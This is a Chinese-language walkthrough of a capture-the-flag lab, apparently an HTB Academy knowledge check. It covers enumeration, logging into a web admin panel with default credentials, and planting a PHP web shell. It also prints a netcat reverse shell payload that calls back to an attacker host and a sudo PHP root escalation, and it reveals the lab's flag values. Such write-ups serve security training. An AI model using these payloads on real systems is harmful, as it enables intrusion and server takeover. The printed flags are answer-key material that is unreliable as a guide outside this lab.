# Knowledge Check


## Initial Foothold

### Spawn the target, gain a foothold and submit the contents of the user.txt flag.


- 先對目標做 `nmap` 掃描，確認目前有哪些服務對外開放，並判斷接下來應該優先往哪個服務深入。
- 在這一題裡，重點會落在 Web 服務，因為後續的 foothold 是從網站後台切進去的。



- 掃描之後先回到首頁觀察頁面內容，確認是否有明顯的登入入口、功能模組，或是能夠延伸枚舉的線索。
- 單看首頁不一定會直接出現漏洞，但常常能幫助判斷站台用途，以及後面字典掃描要往哪個方向收斂。



- 接著使用 `gobuster` 對站台做目錄枚舉，找出手動瀏覽時不容易直接看到的隱藏路徑。
- 這類題目很常把登入頁面或管理介面藏在不會直接出現在首頁的地方，因此目錄枚舉通常是很重要的切入點。



- 枚舉結果中可以看到 `robots.txt` 提到了 `admin` 相關路徑，並用 `Disallow` 標示出來。
- `robots.txt` 本身不是存取控制，但它常常會洩露站台結構或管理入口，因此很適合拿來做下一步手動確認。



- 依照前面的線索繼續瀏覽後，可以找到後台登入頁面。



- 這裡直接使用弱密碼 `admin / admin` 成功登入。
- 一旦能進入後台，下一步就不是繼續猜密碼，而是確認是否有可以編輯頁面、上傳檔案或植入程式碼的功能。



- 登入後先寫入一個簡單的 PHP 測試 shell，確認目前可修改的內容是否真的會在伺服器端執行。
- 先用最小化的 payload 比較穩，因為如果一開始就直接放 reverse shell，失敗時不容易判斷是路徑、權限還是 payload 本身有問題。

```php
<?php system('id'); ?>
```



- 進到對應的 `editing file` 路徑後，可以看到 `id` 指令的執行結果，代表目前已經具備 Web 層面的遠端命令執行能力。
- 到這一步之後，接下來的目標就從「找入口」變成「把目前這個入口轉成更好操作的 shell」。



- 確認測試 shell 可用後，再把內容替換成 reverse shell payload，讓目標主機主動回連到攻擊機。
- 這樣做的好處是可以拿到比較穩定的互動式 shell，不用一直透過網頁反覆送單一指令。

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```



- 攻擊機先開好 `netcat` 監聽，再回到目標頁面觸發剛剛的 payload，就能收到反彈回來的 shell。

```bash
nc -lvnp <PORT>
```



- 成功進入主機後，依照題目指定路徑讀取 `user.txt`，完成 foothold 階段。
- 如果當下拿到的是較陽春的 shell，也可以先視情況升級成 pseudo-terminal，再做後續操作。

```bash
7002d65b149b0a4d19132a66feed21d8
```

## Privilege Escalation

### After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.


- 取得一般使用者 shell 後，先執行 `sudo -l`，確認目前帳號有哪些可在不輸入密碼的情況下執行的指令。
- 這一步是提權時最優先要檢查的項目之一，因為只要某個高權限程式被放進 `sudoers`，通常就代表存在直接可利用的提權路徑。



- 從結果可以看到可直接以 `sudo` 執行的程式是：

```bash
/usr/bin/php
```

- 這代表可以利用 PHP 的 `system()` 幫我們執行任意系統命令。
- 因此只要把想執行的命令包進 PHP 片段，再透過 `sudo` 執行，就能以 `root` 權限開出 shell。
- 這裡本質上不是 PHP 本身有漏洞，而是 `sudoers` 允許目前帳號以 `root` 身分執行 `/usr/bin/php`，所以 PHP 觸發的系統命令也會繼承 `root` 權限。

```bash
CMD="/bin/bash"
sudo /usr/bin/php -r "system('$CMD');"
```

- 成功取得 `root` 權限後，再到題目指定位置讀取 `root.txt` 即可完成這一題。
- 如果只想先快速驗證是否真的能以 `root` 執行命令，也可以先把 `CMD` 改成 `id` 或 `whoami` 之類的指令。

```bash
f1fba6e9f71efb2630e6e34da6387842
```
